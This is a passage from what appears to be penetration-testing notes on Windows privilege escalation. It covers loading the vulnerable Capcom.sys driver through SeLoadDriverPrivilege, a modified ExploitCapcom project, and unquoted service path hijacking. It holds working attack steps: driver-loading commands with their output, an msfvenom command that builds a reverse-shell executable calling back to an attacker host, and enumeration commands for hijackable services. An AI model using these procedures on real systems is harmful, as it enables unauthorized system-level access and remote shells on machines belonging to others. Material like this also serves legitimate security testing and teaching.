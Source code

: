 Copy the driver and the binary to the target machine and execute it.

```
.\EoPLoadDriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\dfserv
NTSTATUS: 00000000, WinError: 0
```

>**NTSTATUS** codes:
>
>0xC000003B - `STATUS_OBJECT_PATH_SYNTAX_BAD`
>
>0x00000034 - `STATUS_OBJECT_NAME_NOT_FOUND`

## Exploiting Capcom.sys

I modified the following project: [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom). Download the project and open the `ExploitCapcom.sln` (Visual Studio Project) with Visual Studio.

Modify the line 410 of `ExpliotCapCom.cpp` and compile it.

![ExploitCapcom.cpp](/hackingnotes/images/exploitcapcom.png)

Create the exploit.exe payload with msfvenom:

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > exploit.exe
```

And upload all the files and execute the `ExploitCapcom.exe`:

```
.\ExploitCapcom.exe
```

* [https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

# Unquoted Service Path

Every Windows service has his access route to the executable. If this route is **not quoted** and **contains** **spaces** or others separators like this example ~~_`C:\Program Files\First Folder\myexecutable.exe`_~~ , the service will try to access to the resource in the following order:

1. _`C:\Program.exe`_
2. _`C:\Program Files\First.exe`_
3. _`C:\Program Files\First Folder\myexecutable.exe`_

If we can put our executable in one of the paths that it is checked before the real route, when we restart the service we will obtain a shell.

```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '"'
Get-WmiObject -Class win32_service | select pathname
```
